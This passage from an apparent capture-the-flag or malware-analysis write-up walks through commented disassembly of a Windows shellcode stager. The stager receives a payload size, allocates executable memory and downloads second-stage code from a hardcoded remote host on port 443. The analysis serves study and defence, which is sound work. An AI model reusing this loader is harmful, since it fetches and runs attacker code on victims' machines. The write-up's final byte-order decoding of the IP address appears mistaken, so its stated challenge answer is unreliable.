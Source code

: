**Fifth API Call - recv (receive stage size):**
```assembly
sub     rsp, 10h             ; Allocate 16 bytes on stack for buffer
mov     rdx, rsp             ; Second parameter: buffer pointer
xor     r9, r9               ; Fourth parameter: 0 (no flags)
push    4
pop     r8                   ; Third parameter: 4 bytes to receive
mov     rcx, rdi             ; First parameter: socket descriptor
mov     r10d, 5FC8D902h      ; Hash for recv
call    rbp                  ; Call recv(socket, buffer, 4, 0)
```

**Sixth API Call - VirtualAlloc:**
```assembly
pop     rsi                  ; Get the 4-byte size value received
push    40h
pop     r9                   ; Fourth parameter: PAGE_EXECUTE_READWRITE
push    1000h
pop     r8                   ; Third parameter: MEM_COMMIT
mov     rdx, rsi             ; Second parameter: size (from recv)
xor     rcx, rcx             ; First parameter: NULL (let system choose address)
mov     r10d, 0E553A458h     ; Hash for VirtualAlloc
call    rbp                  ; Call VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE)
```

**Seventh API Call - recv (receive shellcode):**
```assembly
xor     r9, r9               ; Fourth parameter: 0 (no flags)
mov     r8, rsi              ; Third parameter: number of bytes to receive
mov     rdx, rbx             ; Second parameter: allocated memory address
mov     rcx, rdi             ; First parameter: socket descriptor
mov     r10d, 5FC8D902h      ; Hash for recv
call    rbp                  ; Call recv(socket, allocated_memory, size, 0)
```

The shellcode implements a **stage-1 loader** that:
1. Establishes a network connection to a remote server
2. Receives the size of the next stage payload
3. Allocates executable memory for the payload
4. Downloads and executes the second-stage payload

This is a classic **staged payload** architecture commonly used in penetration testing tools and malware, where the initial payload is kept minimal to reduce detection, and the main functionality is delivered in subsequent stages.


### Challenge Solution

With the shellcode fully analyzed, the final step was to extract the connection target. Examining the hardcoded `SOCKADDR_IN` structure in the payload:

```assembly
mov     r12, 515B1312BB010002h  ; SOCKADDR_IN structure bytes
```

Breaking down this 64-bit value:
- `0002` = `AF_INET` (address family)
- `01BB` = port 443 in network byte order (big-endian)
- `12135B51` = IP address 81.91.19.18 in network byte order
